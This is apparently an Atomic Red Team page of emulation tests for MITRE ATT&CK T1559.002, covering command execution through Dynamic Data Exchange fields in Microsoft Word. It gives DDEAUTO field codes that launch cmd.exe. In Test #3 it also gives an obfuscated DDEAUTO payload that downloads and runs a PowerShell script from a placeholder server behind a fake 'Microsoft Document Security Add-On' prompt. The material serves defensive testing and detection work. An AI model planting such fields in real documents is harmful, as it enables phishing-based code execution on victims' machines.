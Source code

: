 # T1559.002 - Dynamic Data Exchange
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1559.002)
<blockquote>Adversaries may use Windows Dynamic Data Exchange (DDE) to execute arbitrary commands. DDE is a client-server protocol for one-time and/or continuous inter-process communication (IPC) between applications. Once a link is established, applications can autonomously exchange transactions consisting of strings, warm data links (notifications when a data item changes), hot data links (duplications of changes to a data item), and requests for command execution.

Object Linking and Embedding (OLE), or the ability to link data between documents, was originally implemented through DDE. Despite being superseded by [Component Object Model](https://attack.mitre.org/techniques/T1559/001), DDE may be enabled in Windows 10 and most of Microsoft Office 2016 via Registry keys. (Citation: BleepingComputer DDE Disabled in Word Dec 2017) (Citation: Microsoft ADV170021 Dec 2017) (Citation: Microsoft DDE Advisory Nov 2017)

Microsoft Office documents can be poisoned with DDE commands (Citation: SensePost PS DDE May 2016) (Citation: Kettle CSV DDE Aug 2014), directly or through embedded files (Citation: Enigma Reviving DDE Jan 2018), and used to deliver execution via [Phishing](https://attack.mitre.org/techniques/T1566) campaigns or hosted Web content, avoiding the use of Visual Basic for Applications (VBA) macros. (Citation: SensePost MacroLess DDE Oct 2017) DDE could also be leveraged by an adversary operating on a compromised machine who does not have direct access to a [Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Execute Commands](#atomic-test-1---execute-commands)

- [Atomic Test #2 - Execute PowerShell script via Word DDE](#atomic-test-2---execute-powershell-script-via-word-dde)

- [Atomic Test #3 - DDEAUTO](#atomic-test-3---ddeauto)


<br/>

## Atomic Test #1 - Execute Commands
Executes commands via DDE using Microsfot Word

**Supported Platforms:** Windows




#### Run it with these steps! 
Open Microsoft Word

Insert tab -> Quick Parts -> Field

Choose = (Formula) and click ok.

After that, you should see a Field inserted in the document with an error "!Unexpected End of Formula", right-click the Field, and choose Toggle Field Codes.

The Field Code should now be displayed, change it to Contain the following:

{DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"  }







<br/>
<br/>

## Atomic Test #2 - Execute PowerShell script via Word DDE
When the word document opens it will prompt the user to click ok on a dialogue box, then attempt to run PowerShell with DDEAUTO to download and execute a powershell script

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`! 


```cmd
start $PathToAtomicsFolder\T1559.002\bin\DDE_Document.docx
```






<br/>
<br/>

## Atomic Test #3 - DDEAUTO

TrustedSec - Unicorn - https://github.com/trustedsec/unicorn

SensePost DDEAUTO - https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

Word VBA Macro

[Dragon's Tail](https://github.com/redcanaryco/atomic-red-team/tree/master/ARTifacts/Adversary/Dragons_Tail)

**Supported Platforms:** Windows




#### Run it with these steps! 
1. Open Word

2. Insert tab -> Quick Parts -> Field

3. Choose = (Formula) and click ok.

4. Once the field is inserted, you should now see "!Unexpected End of Formula"

5. Right-click the Field, choose "Toggle Field Codes"

6. Paste in the code from Unicorn or SensePost

7. Save the Word document.

9. DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"

10. DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord\\..\\..\\..\\..\\windows\\system32\\{ QUOTE 87 105 110 100 111 119 115 80 111 119 101 114 83 104 101 108 108 }\\v1.0\\{ QUOTE 112 111 119 101 114 115 104 101 108 108 46 101 120 101 } -w 1 -nop { QUOTE 105 101 120 }(New-Object System.Net.WebClient).DownloadString('http://<server>/download.ps1'); # " "Microsoft Document Security Add-On"







<br/>
